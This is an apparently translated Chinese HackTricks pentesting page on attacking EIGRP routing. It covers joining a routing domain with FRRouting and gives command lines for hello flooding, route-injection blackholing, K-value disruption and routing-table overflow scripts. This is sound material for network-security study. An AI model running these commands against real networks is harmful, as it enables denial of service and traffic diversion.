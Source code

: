 # EIGRP 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

- 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
- 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上关注**我们。
- 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

**本页面基于** [****](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)。查看以获取更多信息。

## 理解 EIGRP 协议的漏洞 <a href="#0f82" id="0f82"></a>

**EIGRP（增强内部网关路由协议）** 被识别为一种动态的距离矢量路由协议。如果忽略身份验证或被动接口的配置，可能会出现关键漏洞，导致潜在的路由表污染。此外，EIGRP 网络或自治系统的结构是非分段的，缺乏任何形式的区域划分。这种扁平结构意味着攻击者注入的路由可能传播到整个自治系统。

![](../../.gitbook/assets/image (25) (1).png)

利用 EIGRP 系统的初始步骤包括与合法的 EIGRP 路由器建立连接。这种连接打开了从侦察到各种形式的注入的途径。为了实现这一点，使用开源解决方案 [**FRRouting**](https://frrouting.org/) 在 Unix 和 Linux 系统上模拟路由器。**FRRouting** 支持多种协议，包括 BGP、OSPF 和 EIGRP。在攻击者的系统上部署 FRRouting 使其能够在路由域内模拟合法的路由器。将在后续提供在您的系统上部署 FRR 的详细说明。

### 收集网络情报 <a href="#41e6" id="41e6"></a>

集成到路由域中允许对网络进行枚举和侦察，提供了一种节省时间的替代方案，避免了广泛扫描的风险。这种方法不仅节省时间，还减少了被入侵检测系统（IPS/IDS）发现的风险。要实现这一点，需要部署 **FRRouting**。

需要在控制守护程序活动的 `daemons` 配置文件中进行修改。必须激活 **eigrpd** 守护程序。
```bash
~# nano /etc/frr/daemons
eigrpd=yes
```
此外，需要调整**vtysh.conf**文件，以确保各种协议的配置被整合到单个文件中。
```bash
~# nano /etc/frr/vtysh.conf
service integrated-vtysh-config
```
在配置完成后，需要启动FRR守护程序并启用流量路由（在Linux发行版中默认情况下是禁用的）。
```bash
~$ sudo systemctl start frr
~$ sudo sysctl -w net.ipv4.ip_forward=1
```
![](../../.gitbook/assets/image (32).png)

**vtysh**命令提供对FRR路由器控制面板的访问。
```bash
~$ sudo vtysh
```
示例用法：
```bash
root# show version
```
> 注意：EIGRP路由域可能已通过身份验证进行保护。但是，仍然可以通过从hello数据包中提取加密哈希并重置密码来实现潜在访问。

在全局配置模式下，启动**EIGRP**进程并定义自治系统号为**1**，以及网络位置。
```bash
root# config
root(config)# router eigrp 1
root(config-router) network 10.10.100.50/32
```
在与合法的 EIGRP 路由器（在本例中为 **GW1 (10.10.100.100)** 和 **GW2 (10.10.100.200)**）建立邻居连接后，路由器会交换路由信息。这个过程会导致攻击系统的路由表中出现新的路由，有助于渗透测试并节省子网扫描时间。在这个阶段，系统已经成为 EIGRP 路由域的一部分，并准备好进一步发展攻击向量。

![](../../.gitbook/assets/image (5) (1) (2).png)
![](../../.gitbook/assets/image (30) (1).png)
![](../../.gitbook/assets/image (29) (1) (2).png)

### 利用 EIGRP：攻击向量 <a href="#51ee" id="51ee"></a>

#### 1. 伪造 EIGRP 邻居
大量发送 EIGRP hello 数据包可能导致路由器 CPU 过载，为 DoS 攻击铺平道路。一个名为 **helloflooding.py** 的脚本用于此目的，尽管其数据包发送速度受 GIL（全局解释器锁）限制。计划对该脚本进行 C 语言重写以提高性能。

![](../../.gitbook/assets/image (2) (6) (1).png)

脚本的使用涉及指定：
- 网络接口（例如，eth0）
- EIGRP 自治系统号（例如，1）
- 子网位置（例如，10.10.100.0/24）
```bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
```
#### 2. EIGRP黑洞
这种攻击涉及注入虚假路由以破坏流量流向，通常称为黑洞攻击。使用**routeinject.py**脚本来实现。例如，将`172.16.100.140/32`的流量重定向到一个不存在的目的地。

Script参数包括：
- 攻击者系统接口
- EIGRP AS号
- 攻击者IP地址
- 目标子网IP及其掩码
```bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
```
![](../../.gitbook/assets/image (20) (1).png)

攻击结果是由于路由注入导致对目标主机的连接丢失。

![](../../.gitbook/assets/image (6) (1) (1).png)

#### 3. 滥用 K-Values
EIGRP 路由器之间不匹配的 K-Values 可以破坏 EIGRP 域。**relationshipnightmare.py** 脚本利用这一点，通过注入修改后的 K-Values，触发 EIGRP 域内持续的中断和重新连接，有效地导致 DoS 攻击。

![](../../.gitbook/assets/image (12) (2) (1).png)

脚本需要：
- 网络接口
- EIGRP AS 号
- 合法路由器的 IP 地址

注入的修改会从指定的 IP 发送到多播 EIGRP IP 地址，导致不匹配。
```bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
```
![](../../.gitbook/assets/image (9) (1) (4).png)
![](../../.gitbook/assets/image (27) (1).png)

#### 4. 路由表溢出
此攻击通过向路由表发送虚假路由来使路由器的CPU和RAM负担过重。**routingtableoverflow.py** 脚本通过快速发送大量虚假路由来实现此攻击。

![](../../.gitbook/assets/image (3) (4).png)

脚本参数:
- 网络接口
- EIGRP AS编号
- 攻击者的IP地址

执行脚本后，路由表将充斥着虚假路由，严重影响路由器性能。
```bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
```
![](../../.gitbook/assets/image (4) (4).png)
![](../../.gitbook/assets/image (21) (1).png)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
